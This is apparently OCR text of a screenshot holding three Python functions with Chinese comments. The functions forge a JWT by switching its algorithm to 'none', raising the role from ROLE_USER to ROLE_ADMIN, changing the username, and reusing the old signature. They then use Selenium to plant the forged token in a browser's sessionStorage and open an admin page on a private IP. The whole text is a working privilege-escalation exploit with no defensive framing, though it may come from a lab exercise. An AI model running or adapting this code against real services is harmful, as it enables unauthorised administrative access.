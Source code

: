      ```python
     # 破解Token篡改名字与权限
     def crack_token(token: str) -> str:
         ts = token.split('.')
         json1 = base64.b64decode(ts[0])
         json1 = str(json1)
         json1 = json1.replace("HS256", "none")
         # print(ts[1])
         json2 = base64.b64decode(ts[1] + "==")
         json2 = str(json2)
         json2 = json2.replace("ROLE_USER", "ROLE_ADMIN")
         json2 = json2.replace("fdse_microservice", "lty")
         json1 = json1[json1.find('{'):json1.find('}') + 1]
         json2 = json2[json2.find('{'):json2.find('}') + 1]
         print(json1)
         print(json2)
         header = str(base64.b64encode(json1.encode("utf-8")), "utf-8")
         payload = str(base64.b64encode(json2.encode("utf-8")), "utf-8")
         print(header + '.' + payload + '.' + ts[2])
         return header + '.' + payload + '.' + ts[2]
     ```

     ```python
     # 重新放置新的Token
     def put_token_normal(token):
         global wd
         # wd.get("http://10.249.238.10")
         wd.execute_script("sessionStorage.setItem('client_name', 'lty')")
         wd.execute_script("sessionStorage.setItem('client_token', arguments[0])", token)
         wd.refresh()
     ```

     ```python
     # 放置Token到Admin页面
     def put_token_admin(token):
         global wd_admin
         wd_admin.get("http://10.249.238.10/adminlogin.html")
         wd_admin.execute_script("sessionStorage.setItem('admin_name', 'lty')")
         wd_admin.execute_script("sessionStorage.setItem('admin_token', arguments[0])", token)
         wd_admin.get("http://10.249.238.10/admin.html")
         # wd_admin.refresh()
     ```
